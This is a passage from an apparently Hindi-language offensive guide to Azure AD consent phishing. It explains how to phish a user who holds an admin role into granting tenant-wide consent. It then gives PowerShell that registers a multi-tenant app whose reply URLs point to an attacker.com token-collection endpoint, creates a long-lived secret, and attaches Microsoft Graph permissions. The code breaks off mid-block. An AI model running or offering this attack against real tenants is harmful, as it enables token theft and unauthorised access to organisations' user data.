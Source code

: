 `User.ReadBasic.All` `Microsoft Graph` में `Delegated permissions` के अंदर है। (एप्लिकेशन अनुमतियों के लिए हमेशा अतिरिक्त अनुमोदन की आवश्यकता होगी)।

* `User.ReadBasic.All` वह अनुमति है जो आपको **संगठन के सभी उपयोगकर्ताओं की जानकारी पढ़ने** की अनुमति देगी यदि इसे प्रदान किया गया।
* याद रखें कि केवल `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` और एक कस्टम भूमिका जिसमें `अनुमतियों को एप्लिकेशनों को देने की अनुमति` शामिल है, टेनेट-व्यापी सहमति प्रदान कर सकते हैं। इसलिए, यदि आप चाहते हैं कि वह **ऐप को मंजूरी दे जो प्रशासनिक सहमति की आवश्यकता है**, तो आपको **उनमें से किसी एक भूमिका वाले उपयोगकर्ता को फ़िश करना चाहिए**।

आप CLI के माध्यम से एक ऐप भी बना सकते हैं: 

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

```